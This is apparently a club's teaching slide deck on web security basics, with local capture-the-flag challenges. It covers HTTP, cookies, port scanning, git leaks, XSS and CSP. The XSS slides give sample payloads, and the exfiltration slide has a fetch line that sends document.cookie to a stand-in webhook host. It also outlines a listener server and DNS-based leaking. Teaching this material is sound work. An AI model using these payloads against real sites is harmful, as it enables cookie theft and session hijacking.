

<!-- _class: lead terminal-accent -->
# Intro to Web (Security)

###### ~ Library of Babel


---

# Before We Start

- These slides are hosted at `cerealsoup.local`

- All `cerealsoup.local:PORT` links are *only* accessible through our router 

> Ask me if you're interested why ( ´ ▽ ` ).｡ｏ♡


---

# Overview

0. Anatomy of a URL 
1. Dissecting HTTP Request/Response
2. Client-side is Open Source
3. Probing and Fingerprinting
    - Port Scanning 
    - Banner Grabbing
4. Places to Look
5. Cross Site Scripting (XSS)
    - Content Security Policy (CSP)
6. Data Exfiltration & Webhooks  

---

# Anatomy of a URL

```
http://www.libbabel.so:80/blog?sortBy=time#H7texFinals
```

- `http://` protocol
- `www.libbabel.so` domain
- `:80` port number (standard for http)
- `/blog` path
- `?sortBy=time` query param
- `#H7texFinals` fragment 

---

## Hierarchy of the Web (Simplified)

```
+---------------------------------------------------+   ┐
|  +-----------+  +-----------+  +---------------+  |   │
|  |   HTML    |  |    CSS    |  |   Web APIs    |  |   │
|  +-----------+  +-----------+  +---------------+  |   │ Client
|                                |  JavaScript   |  |   │
|                                +---------------+  |   ┘ 
+---------------------------------------------------+   ┐
|                       HTTP                        |   │
+---------------------------------------------------+   │
|  +-----------+        +------------------------+  |   │
|  |    DNS    |        |           |    TLS     |  |   │ Application /
|  +-----------+        +           +------------+  |   │ transport
|  |    UDP    |        |          TCP           |  |   │
|  +-----------+        +------------------------+  |   ┘ 
+---------------------------------------------------+   ┐
|                      IP                           |   │ IP layer
+---------------------------------------------------+   ┘
```

---

# HTTP: Hypertext Transfer Protocol

- Protocol for transmitting resources 
- Follows classic _client-server_ model
- _Stateless_ protocol
- _Unencrypted_ by default

---

## HTTP Request 

```HTTP
GET / HTTP/2
Host: example.com
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
```

--- 

## Request Methods / Verbs

- Indicate purpose of request
  - `GET` fetch resource
  - `HEAD` similar to GET but without a response body
  - `POST` submit an entity
  - `PUT` replaces an entity
  - `DELETE` delete a resource
  - `PATCH` applies partial modifications
- Others: `CONNECT`, `TRACE`

---

## HTTP Headers

- Let client and server pass extra information
  - Request Headers
  - Response Headers
- Also handle redirections
- Standard format: `HEADER_NAME: HEADER_VALUE`


---

## HTTP Cookies
- Small piece of data stored on the browser
- Set using `Set-Cookie` header
- Browser sends using `Cookie` header


---

### HTTP Cookie Properties (and nuances)

- `SameSite` controls when cookies are sent with cross-site requests
- `HttpOnly` controls if scripts can access cookies
- `Secure` only send the cookies over https; they can still be set over http

> (╭ರ_•́) Is `Secure` actually secure? Can you think of an attack vector?

---

## `Authorization` Request Header
- Used to provide credentials for authentication
- Usually uses Session/Persistent Tokens


---

###### Example (discord):


```HTTP
POST /api/v9/channels/<Friend'sID>/messages HTTP/3
Host: discord.com
User-Agent: <My Browser's UA>
Accept: */*
Content-Type: application/json
Authorization: <My Discord Token>
Content-Length: 100
Origin: https://discord.com
Alt-Used: discord.com
Connection: keep-alive
Referer: https://discord.com/channels/@me/<Friend's Id>
Cookie: <My Cookies>

{"content":":(","nonce":"<Nonce>","tts":false,"flags":0}
```

--- 

## HTTP Response

```HTTP
HTTP/2 200 
date: Wed, 07 Jan 2026 16:22:17 GMT
content-type: text/html
content-encoding: gzip
last-modified: Mon, 05 Jan 2026 20:20:37 GMT
allow: GET, HEAD
age: 8024
cf-cache-status: HIT
vary: Accept-Encoding
server: cloudflare
cf-ray: 9ba4cb05ee21a346-DEL
X-Firefox-Spdy: h2
```

--- 

## HTTP Response Status Codes

- Standard response type
- `100-199` Information responses
- `200-299` Successful responses
- `300-399` Redirection responses
- `400-499` Client Error responses
- `500-599` Server Error responses
- Common: `200` (OK), `404` (Not Found), `504` (Gateway Timeout)


---

## Intercepting & Modifying Requests 

- Conveniently interfere in the client-server interaction
  - PortSwigger BurpSuite
  - Caido



---

# Client-side Web is Open 
  - Browser Dev Tools leak all client-side logic
  - JS can be _obfuscated_ but not _hidden_ 
  - WASM binaries can be reverse-engineered.

> (╭ರ_•́) The internet is broken beyond repair

---

# Fingerprinting Methods

- Sniff info about the running services, versions, tech stack, etc.
- Use this info to pinpoint vulnerabilities and attack vectors.


---

## Port Scanning

- Probe a server for open ports and running services
- Automated using tools like `nmap` or `zenmap` (gui)

> (╭ರ_•́) How many ports do you think there are?


--- 

## Banner Grabbing

  - Short piece of text/metadata sent by server when you connect 
  - May reveal service name, versions, OS config info


---

## Git Leaks

  - Exposed `.git/` directories
  - Can lead to total reconstruction of the git commit history
  - Automated using tools like `git-dumper`

> (╭ರ_•́) How bad do you think this is?

--- 

# Those Who Came Before  

A grave sin. A cover up. A forgotten crossroad.

<div class="wrapper"> 
<div class="centerdiv">

```
cerealsoup.local:5000
```

</div>
</div>

<br/>

> flag format: babel{[a-zA-Z0-9_]}

---

# Where to Look?

- You can find interesting stuff in a bunch of places
- A somewhat exhaustive list: 
<div class="newspaper">
  <div>

  - `comments` 
  - `cookies` 
  - `local storage` 
  - `session storage` 

  </div>
  <div>

  - `HTTP headers`
  - `/robots.txt` 
  - `DNS records` 

  </div>
</div>


---

# Pacman's Revenge

The ghosts have hidden themselves using mysterious hexes. Think you can find them all?

<div class="wrapper"> 
<div class="centerdiv">

```
cerealsoup.local:3000
```

</div>
</div>

<br/>

> flag format: babel{[a-zA-Z0-9_]}

---

# Cross Site Scripting (XSS)

- If user input is not _sanitized_ properly, it could lead to unwanted resource injection

- `DOM XSS` entirely client-side
- `Reflected XSS` non-persistent
- `Stored XSS` persistent


---

###### Example

```js
// script.js
const paramsString = window.location.search;
const searchParams = new URLSearchParams(paramsString) ;
const name = searchParams.get('name') || 'Jane Doe';
document.getElementById('name').innerHTML = name;
```


```html
<!-- index.html -->
<div>Hi <span id="name"></span></div>
```

> (╭ರ_•́) What happens when you visit `/?name=<script>alert(1)</script>`

> `innerHTML` is very dangerous (╥﹏╥)

---

Other common ways of executing XSS:

- Through inline scripts 

```html

```

- Using `javascript:` URL scheme

```html
<a href="javascript:alert(1)">Click me</a>
```

- `data:` URI XSS

```html
<script src="data:text/javascript,alert(1)"></script>
```


---

## Content Security Policy (CSP)

- Server puts restrictions on the server, on the type of resources (primarily JavaScript) that it can load

- Set using the `Content-Security-Policy` response header

###### Example 

```http
Content-Security-Policy: default-src 'self'; img-src 'self' example.com
```

---

## CSP: Nonce

- Scripts/styles should be restricted using a `nonce`

- Random value that is embedded into `<script>` and `<style>` elements

```http
Content-Security-Policy: script-src 'nonce-416d1177-4d12-4e3b-b7c9-f6c409789fb8'
```

```html
<script nonce="416d1177-4d12-4e3b-b7c9-f6c409789fb8"></script>
```

> (╭ರ_•́) What could go wrong here?

---

## CSP: Integrity using hashes

- Server calculates and sends the verified hashes in the CSP header

- Client recalculates the hashes to make sure nothing has been tampered

- External scripts must also include `integrity` attribute

```http
Content-Security-Policy: script-src 'sha256-cd9827ad...'
```

> (づ｡◕‿‿◕｡)づ This seems more suitable for static sites 

---

# Data Exfiltration

- Smuggling data out of places

- Done using `webhooks` or `dnshooks` (checkout [webhook.site](https://webhook.site/))

```js
fetch(`https://my-webhook.com/?flag=${document.cookie}`)
```

> webhook.site is popularly used even in real attacks (。﹏。)


---

## Custom Webhooks

- You can write and host your custom webhook servers 

```ts 
import type { BunRequest } from 'bun'

Bun.serve({
	port: 3000,
	routes: {
		'/l': (req: BunRequest) => {
			const url = new URL(req.url)
			const p = url.searchParams.get('l')
			console.log(p, h)
			return new Response('Ok')
		},
	},
})
```


---

## DNS Hooks

- Leak data via subdomain resolution

- Put base64 encoded data as the subdomain:
`d2VpaWlpaWlpaWlp.my-hook.com`

- Lookups can then be logged by server

---

# pwn.college 

- XSS challenges from pwn.college


---

# Thank You

- If you have any doubts please feel free to ask

- We're always available @ [our Discord server](https://discord.gg/kSmsPyxd93)


